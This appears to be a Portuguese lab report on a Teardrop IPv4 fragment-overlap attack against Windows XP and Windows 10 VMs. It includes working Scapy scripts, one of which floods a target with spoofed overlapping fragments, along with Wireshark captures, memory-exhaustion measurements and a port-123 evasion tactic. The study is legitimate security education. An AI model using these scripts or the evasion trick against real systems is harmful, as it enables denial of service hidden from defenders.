


# Relatorio de Ataque de Fragmentação IPv4 (Teardrop)

## 1. Introdução 
Este experimento surgiu da necessidade de compreender a estrutura de dados de um datagrama IPv4, mais do que da exploração da vulnerabilidade em si. Para os testes, foram utilizados sistemas operativos acessíveis em ambiente laboratorial, incluindo um Windows XP Pro SP1 em máquina virtual (VM) e o Windows 10 Pro como host.

## 2. Objetivo 
Demonstrar vulnerabilidade de reassembly de fragmentos IPv4 (Teardrop) usando manipulação do campo Frag Offset no cabeçalho IPv4 para criar sobreposição (overlap) de fragmentos. O ataque tem como alvos o Windows XP Pro SP1 (em VM) e Windows 10 Pro (host). Para geração de pacotes corrompidos foi usada biblioteca Scapy (python), para captura e analise de trafego o Wireshark e para virtualização do ambiente de testes VMware.
	
## 3. Configuração do Ambiente e Troubleshooting
A rede foi configurada em Bridge Mode para permitir que a VM interagisse diretamente com o tráfego da rede local. Pelo que surgiu problema - a VM inicialmente não obtinha conectividade. Portanto, tive que realizar reconfiguração do VMnet0 no Virtual Network Editor e reinstalação do VMware Bridge Protocol nas propriedades da placa de rede.

Instruções
Reconfiguração do VMnet0 (VMware -> Edit -> Virtual Network Editor).
Reinstalação do VMware Bridge Protocol (Control Panel -> Network and Internet -> Network Connections -> click no rato com botao direito-> Properties).
Inicialização manual do serviço:
	net start vmnetbridge
	
## 4. Strategy of Attack
O ataque Teardrop explora a reassembly de pacotes fragmentados. Se os fragmentos se sobrepõem, os sistemas vulneráveis podem tentar alocar memória negativa ou copiar dados para fora dos limites do buffer, o que pode resultar em Kernel Panic ou BSOD (Tela Azul).

## 5. Execução e Analise do Ataque
	
	Script v1: Foca na validação da sobreposição. Ao definir frag=1 (offset de 8 bytes) para um segundo pacote enquanto o primeiro ainda está a ser processado, assim forçamos o sistema a lidar com uma sobreposição de 1344 bytes.
	
    ```python
            from scapy.all import *
                                                                                        
            p1 = IP(dst="<Target_IP>", flags=1)/UDP(sport=123, dport=80)/("A"*1400)                              
            p2 = IP(dst="<Target_IP>", frag=1)/("B"*1400)                              
                                                                                        
            p2.frag = 1   #Adjust the offset to a position that causes overlap      
            p2.proto = 17 #According to IANA, we indicate the protocol to use                   
                                                                                        
            send(p1, iface="en0")         
            send(p2, iface="en0")    
		                                                  
	Traffic Evidence Captured in Wireshark (Script v1 - Target: windows XP Pro)
	
		Frame: 1
		Interface: en0
		Protocol Stack: Ethernet II → IPv4 → UDP → Data
		IPv4 
		├─ Version: 4 
		├─ Header Length: 20 bytes 
		├─ Total Length: 1428 bytes 
		├─ Identification: 0x0001 (1)
		├─ Flags: 0x1 (More Fragments) 
		├─ Fragment Offset: 0 
		├─ TTL: 100
		├─ Protocol: UDP (17) 
		├─ Source IP: <Attacker_IP> 
		└─ Destination IP: <Target_IP>
		Data (Payload) 
		├─ Length: 1408 bytes 
		└─ Content: 007b0050...  ← Contains the spoofed UDP header and payload with "A"
	
		Frame: 2
		Interface: en0
		Protocol Stack: Ethernet II → IPv4 → UDP (Fragmented)
		IPv4 
		├─ Version: 4 
		├─ Header Length: 20 bytes 
		├─ Total Length: 1420 bytes 
		├─ Identification: 0x0001 (1) 
		├─ Flags: 0x0 (Last Fragment)
		├─ Fragment Offset: 8 ← Start at byte 64
		├─ TTL: 100
		├─ Protocol: UDP (17) 
		├─ Source IP: <Attacker_IP> 
		└─ Destination IP: <Target_IP>
		Analysis 
		├─ Reassembly: [2 IPv4 Fragments (1408 bytes): #1, #2] 
		├─ Overlap: This frame overlaps 1344 bytes from the previous frame. 
		├─ Ambiguity: Wireshark interprets the start of this payload as NTP due to the spoofed UDP ports. 
		└─ Status: Identified as [Reassembled IPv4], indicating that the TCP/IP stack has accepted the peering.
	
	
		Frame 1: Identificado como IPv4 (Fragment Offset: 0) com flag "More Fragments". Contém o cabeçalho UDP falcificado com payload "A".
		Frame 2: Identificado como IPv4 (Fragment Offset: 8). Inicia no byte 64, sobrepondo 1344 bytes do frame anterior.
		Análise: O Wireshark identifica o status como [Reassembled IPv4], indicando que a pilha TCP/IP aceitou o emparelhamento. Devido às portas UDP falcificadas, o Wireshark tenta interpretar a carga como NTP.
		
	Script v2: Automatiza o processo com IP Spoofing (RandIP) e envio em massa. Isso testa não apenas a lógica de remontagem, mas também a exaustão de recursos do sistema ao manter múltiplos estados de "pacotes incompletos" na memória.
	
    ```python
			from scapy.all import *
			import time
			import random
			
			target = "<TARGET_IP>"
			interface = "en0"
			
			try:
			    while True:
			        random_ip = str(RandIP())
			                
			        p1 = IP(src=random_ip, dst=target, flags=1, id=66)/UDP(sport=123, dport=80)/("A"*1400)
			        p2 = IP(src=random_ip, dst=target, frag=1, id=66, proto=17)/("B"*1400)
			        
				   send([p1, p2], iface=interface, verbose=False)
			            
			except KeyboardInterrupt:
			    print("\nAttack interrupted.")	
	
	Traffic Evidence (Script v2 - Target: windows XP Pro)
	
		Frame: 13006545
		Interface: en0
		Protocol Stack: Ethernet II → IPv4 → Data (Fragmento 1) 
		IPv4 
		├─ Version: 4 
		├─ Header Length: 20 bytes 
		├─ Total Length: 1428 bytes 
		├─ Identification: 0x0042 (66) 
		├─ Flags: 0x1 (More Fragments) 
		├─ Fragment Offset: 0 ← Início do datagrama 
		├─ TTL: 64 
		├─ Protocol: UDP (17) 
		├─ Source IP: 149.215.95.68 
		└─ Destination IP: 192.168.8.133 
		Data (Payload) 
		├─ Length: 1408 bytes 
		└─ Content: 007b00500580c76b4141... ← Contém o cabeçalho UDP forjado (Portas 123 → 80) e o início da carga "A".
		Frame: 13006546
		Interface: en0
		Protocol Stack: Ethernet II → IPv4 → UDP (Reassembled) → NTP 
		IPv4 
		├─ Version: 4 
		├─ Header Length: 20 bytes
		├─ Total Length: 1420 bytes 
		├─ Identification: 0x0042 (66) 
		├─ Flags: 0x0 (Last Fragment) 
		├─ Fragment Offset: 8 ← Início em 64 bytes (provocando sobreposição com o Frame anterior) 
		├─ TTL: 64 
		├─ Protocol: UDP (17) 
		├─ Source IP: 149.215.95.68 
		└─ Destination IP: 192.168.8.133 
		Analysis 
		├─ Reassembly: [2 IPv4 Fragments (1408 bytes): #13006545, #13006546] 
		├─ Status: Identificado como [Reassembled IPv4]. O sistema operacional aceitou a combinação. 
		└─ Ambiguity: O Wireshark interpreta a carga final como NTP porque a porta de origem forjada no primeiro fragmento é a 123.
	
		Frame 13006545 (Fragmento 1): Offset 0, comprimento 1408 bytes.
		Frame 13006546 (Fragmento 2): Offset 8 (64 bytes), provocando sobreposição de 1344 bytes.
		Status: Identificado como [Reassembled IPv4]. A pilha de rede aceitou processar a sobreposição.
	
	
	Traffic Evidence (Script v2 - Target: Windows 10 Pro)
		 
		Frame: 21590
		Interface: \Device\NPF_{...}
		Protocol Stack: Ethernet II → IPv4 → Data (Fragmento 1) 
		IPv4 
		├─ Version: 4 
		├─ Header Length: 20 bytes 
		├─ Total Length: 1428 bytes 
		├─ Identification: 0x0042 (66) 
		├─ Flags: 0x1 (More Fragments) 
		├─ Fragment Offset: 0 ← Início do datagrama (Byte 0) 
		├─ TTL: 64 ├─ Protocol: UDP (17) 
		├─ Source IP: 239.79.93.157 
		└─ Destination IP: 192.168.8.142 
		Data (Payload) 
		├─ Length: 1408 bytes 
		└─ Content: 007b005005806f914141... 
		
		Frame: 21591
		Interface: \Device\NPF_{...}
		Protocol Stack: Ethernet II → IPv4 → UDP (Reassembled) → NTP IPv4 
		├─ Version: 4 
		├─ Header Length: 20 bytes 
		├─ Total Length: 1420 bytes 
		├─ Identification: 0x0042 (66) 
		├─ Flags: 0x0 (Last Fragment) 
		├─ Fragment Offset: 8 ← Início em 64 bytes (Provoca sobreposição de 1344 bytes) 
		├─ TTL: 64 
		├─ Protocol: UDP (17) 
		├─ Source IP: 239.79.93.157 
		└─ Destination IP: 192.168.8.142 
		Analysis 
		├─ Reassembly: [2 IPv4 Fragments (1408 bytes): #21590, #21591] 
		├─ Status: Identificado como [Reassembled IPv4]. A pilha de rede aceitou processar a sobreposição. 
		└─ Ambiguity: O Wireshark rotula como NTP devido à porta de origem 123 forjada no primeiro fragmento.
	
	
		Frame 21590 (Fragmento 1): Offset 0, comprimento 1408 bytes.
		Frame 21591 (Fragmento 2): Offset 8 (64 bytes), provocando sobreposição de 1344 bytes.
		Status: Identificado como [Reassembled IPv4]. A pilha de rede aceitou processar a sobreposição.
	
## 6. Evidence interpretation 
O Wireshark mostra que o ataque ocorreu corretamente na Camada 3 onde o Fragmento 0 entrega os primeiros 1408 bytes e o Fragmento 8 entrega o restante, mas começa a partir do byte 64, assim o sistema recebe dois dados diferentes para o mesmo intervalo.

## 7. Impacto nos recursos do sistema
	1. Windows XP Pro (via VM)
	
        ### Windows XP - Idle


        ### Windows XP - Attack


	A comparação dos dados do Task Manager revela o custo operacional:
	
| Metrics            | In Rest (Idle)|Durante Attack | Impact         |
|:-------------------|:--------------|:--------------|:---------------|
| Nonpaged Kernel    | 179 MB        | 330 MB        | +151 MB        |
| Pacotes Recebidos  | N/A           | 1.405.356     | Fluxo massivo  |
| System Cache       | 139.976 KB    | 154.512 KB    | +14,5 MB       |

	
	O fato de o Nonpaged Pool ter estagnado em ~18 MB após 400.000 pacotes indica que o sistema não é vulnerável ao crash imediato. Em sistemas vulneráveis, este valor cresceria indefinidamente até o esgotamento total da memória.
	
	2. Windows 10 Pro
	
        ### Windows 10 - Idle

        
        ### Windows 10 - Attack


    O sistema atingiu o limite da RAM física durante o ataque massivo.

| Métrica            | Repouso (Idle)   | Durante Ataque   | Impacto                      |
|:-------------------|:-----------------|:-----------------|:-----------------------------|
| Memória em Uso     | 3.4 GB (43%)     | 7.6 GB (96%)     | Limite da RAM atingido       |
| Committed (Total)  | 3.7 / 9.2 GB     | 13.9 / 16.2 GB   | + 10.2 GB (Virtual)          |
| Non-paged Pool     | 179 MB           | 330 MB           | Quase dobrou (retenção)      |
| Cached             | 3.8 GB           | 414 MB           | Queda drástica (expulsão)    |

    O sistema apresentou lentidão durante o uso paralelo de programas. Sempre que o Non-paged pool excedia 325MB, ocorria um pico no disco C: e os valores baixavam em seguida. Mesmo 2 horas após o fim do script, os valores de memória permaneceram altos (91% de uso), sugerindo dificuldade do SO em libertar os recursos alocados.

## 8. Conclusion
Ambos os SO estão protegidos contra o crash (BSOD) por sobreposição IPv4, porém o Windows 10 Pro demonstrou maior vulnerabilidade à exaustão de recursos. A lentidão extrema sugere que um ataque prolongado poderia causar o "congelamento" total do sistema. Notei que, ao parar o script, a Cached Memory subia e o uso geral baixava apenas após picos de atividade no disco, indicando que o Windows 10 tenta gerir o ataque movendo a carga para a memória virtual.

## 9. Conceitos e Justificativas
Nonpaged Pool: Memória do kernel que não pode ser movida para o disco. Se esgotada, o sistema trava.
Cached: Memória usada para acelerar o acesso a dados. Foi "expulsa" pelo sistema para priorizar o tráfego do ataque.
Porta 123 (Uso e Evasão):
	Disfarce: Porta do protocolo NTP (tempo). Muitos firewalls permitem este tráfego por padrão.
	Camuflagem: No Wireshark, o analista vê "NTP" com datas erradas (ex: ano 2070) e pode confundir o ataque com um simples erro de sincronização, mascarando o DoS.
